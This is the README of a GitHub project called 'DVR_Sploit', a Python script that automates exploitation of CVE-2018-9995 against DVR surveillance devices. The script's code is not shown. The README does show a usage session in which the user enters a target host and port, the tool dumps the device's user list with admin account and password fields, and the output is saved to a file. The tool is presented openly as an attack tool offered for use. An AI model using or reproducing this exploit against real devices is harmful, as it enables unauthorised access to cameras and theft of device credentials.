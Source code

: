 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: requests (pip install requests)

Usage:
root@fuckmachine:~# python3 dvrsploit.py

Enter DVR host: 192.168.69.69

Enter DVR port: 88

Device list:

{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
